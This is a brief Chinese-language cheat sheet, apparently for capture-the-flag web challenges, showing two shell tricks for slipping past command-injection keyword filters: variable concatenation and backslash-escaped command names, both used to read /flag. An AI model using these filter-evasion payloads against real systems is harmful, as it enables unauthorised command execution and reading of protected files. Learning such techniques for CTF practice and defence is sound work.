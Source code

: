# 变量绕过
```shell
a=f; b=lag; cat $a$b
```
# 反斜杠绕过
```shell
cmd=ca\t /flag
```

#Web #shell #bypass #RCE 